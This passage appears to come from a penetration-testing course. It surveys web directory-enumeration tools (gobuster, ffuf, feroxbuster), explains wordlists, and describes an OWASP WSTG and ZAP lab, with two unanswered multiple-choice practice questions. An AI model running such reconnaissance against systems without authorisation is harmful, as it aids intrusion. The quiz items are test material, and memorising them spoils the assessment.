
Earlier in this module, you learned about the tool DirBuster, which can be used to perform active reconnaissance of a web application. There are other, more modern tools available to perform similar reconnaissance (including enumerating files and directories). The following are some of the most popular of them:
- gobuster: This tool, which is similar to DirBuster, is written in Go. You can download gobuster from https://github.com/OJ/gobuster.
- ffuf: This very fast web fuzzer is also written in Go. You can download ffuf from href="https://github.com/ffuf/ffuf" target="_blank">https://github.com/ffuf/ffuf.
- feroxbuster: This web application reconnaissance fuzzer is written in Rust. You can download feroxbuster from https://github.com/epi052/feroxbuster.
All of these tools use wordlists – that is, files containing numerous words that are used to enumerate files and directories and crack passwords. Figure 6-27 shows how gobuster is able to enumerate different directories in a web application running on port 8888 on a system with the IP address 192.168.88.225. The attacker in this case is using a wordlist called mywordlist.

6.12.12 Practice — Web Hacking Tools
You are looking for tools to use in a penetration test of a customer's web application. You want the software to intercept and forward all traffic between your testing VM and the customer's web site so you can examine and analyze all of the messages that are exchanged. Which tools should you consider? (Choose two.)
6.12.13 Lab — Use the OWASP Web Security Testing Guide
There are many organizations that are dedicated to improving cybersecurity. They offer fantastic resources that are really helpful to us here at Protego. OWASP offers many resources and tools that are really awesome. They focus on web application security, so when you do application testing, you will find yourself turning to their resources often.
The OWASP WSTG is an amazing guide to testing for a really wide range of web application vulnerabilities, and offers concrete recommendations for threat mitigation. It is indispensable for making recommendations regarding vulnerabilities that we have discovered in our testing.
You should be familiar with it, so I want you to explore the WSTG website. After you check that out, we will do a brief vulnerability scan using the OWASP ZAP tool so you can see how it can work together with WSTG.
In this lab, you will complete the following objectives:
- Part 1: Investigate the WSTG
- Part 2: Scan a Website and Investigate Vulnerability References
In the lab, you scanned a target for application vulnerabilities using OWASP ZAP. You explored one of the vulnerabilities that you discovered. What type of vulnerability was it and what was its cause? (Choose two.)